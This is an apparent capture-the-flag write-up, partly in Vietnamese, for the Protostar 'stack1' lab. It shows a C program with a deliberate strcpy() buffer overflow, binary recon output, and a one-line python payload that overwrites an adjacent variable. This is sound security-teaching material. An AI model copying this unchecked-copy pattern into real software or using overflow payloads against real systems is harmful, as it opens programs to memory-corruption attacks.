

# **stack1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

New knowledge:
- 0

## Target
printf("you have correctly got the variable to the right value\n");

## Vulnerability
strcpy():  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk. Using strcpy() function to copy a large character array into a smaller one is dangerous.

## Recon

```
┌──(kali㉿kali)-[~/Documents/week9/bin]
└─$ rabin2 -I ./stack1
arch     x86
baddr    0x8048000
binsz    23196
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Debian 4.4.5-8) 4.4.5 GCC: (Debian 4.4.5-10) 4.4.5
crypto   false
endian   little <====================================================== focus here!
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       false
os       linux
pic      false
relocs   true
relro    no
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

## Exploit
- Giống như stack0, ta lại phân tích stack:



=> Chỉ cần nhập 64 ký tự bất kỳ và string 'abcd' đảo ngược là xong:

```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('a'*64 + 'dcba')")
you have correctly got the variable to the right value
```

# References
- strcpy() function vulnerabilities: https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/